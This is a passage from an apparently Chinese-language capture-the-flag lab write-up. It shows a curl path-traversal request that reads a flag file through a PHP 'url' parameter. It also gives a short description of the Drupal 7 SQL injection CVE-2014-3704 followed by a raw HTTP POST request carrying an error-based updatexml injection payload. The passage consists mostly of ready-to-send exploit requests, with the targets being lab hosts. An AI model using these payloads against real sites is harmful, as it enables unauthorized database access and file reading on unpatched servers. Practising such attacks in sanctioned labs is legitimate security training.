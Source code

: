

```csharp
curl -X POST "http://eci-2zebir6z1t9jpsybrz6d.cloudeci1.ichunqiu.com/templates/default/html/windows/right.php" -d "url=../../../../../../../../../../../../flag"
```

![image-20230712144440644](%E9%9D%B6%E5%9C%BA.assets/image-20230712144440644.png)

## CVE-2014-3704 Drupal cms sql注入

*靶标介绍：*

Drupal是使用PHP语言编写的开源内容管理框架（CMF），它由由内容管理系统和PHP开发框架共同构成，在GPL2.0及更新协议下发布。连续多年荣获全球最佳CMS大奖，是基于PHP语言最著名的WEB应用程序。 Drupal 是一款用量庞大的CMS，其7.0~7.31版本中存在一处无需认证的SQL漏洞。通过该漏洞，攻击者可以执行任意SQL语句，插入、修改管理员信息，甚至执行任意代码。

1.txt

```
POST /?q=node&destination=node HTTP/1.1
Host: eci-2zeacjw9s6fub0sr7tat.cloudeci1.ichunqiu.com
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 122
 
pass=lol&form_build_id=&form_id=user_login_block&op=Log+in&name[0 or updatexml(0,concat(0xa,*),0)%23]=bob&name[0]=a
```

